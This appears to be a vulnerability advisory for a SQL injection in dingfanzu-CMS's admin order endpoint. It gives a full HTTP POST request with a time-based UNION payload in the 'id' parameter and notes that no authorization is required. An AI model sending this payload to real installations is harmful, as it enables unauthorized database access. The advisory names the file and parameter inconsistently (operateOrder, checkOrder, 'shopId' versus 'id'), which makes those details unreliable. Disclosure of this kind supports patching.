 
# dingfanzu-CMS operateOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

SQL injection refers to attackers tampering with primitive sentence logic by inputting malicious SQL code. Dingfanzu - CMS's operteOrder.chp does not strictly filter user input and concatenates it into SQL statements. Attackers can construct special inputs, alter the execution results of statements, and achieve illegal data access, modification, and even control of databases..

The path to the vulnerability：/admin/ajax/operateOrder.php
The param to the vulnerability：type=cancel&id=
    Payload used:

```
POST /admin/ajax/operateOrder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://127.0.0.1/dingfanzu-master/dingfanzu-master/admin/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

type=cancel&id=1+union+select+sleep(3)--+

```


## Proof of Concept

The parameter 'id' received from the user input is not strictly validated in the operatiteOrder.chp file, and the file can be accessed without authorization for SQL injection attacks.


![dingfangzu1.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu1.png)

order.inc.php file.
![dingfangzu2.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu2.png)


Practical verification

![dingfangzu3.png.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu3.png.png)
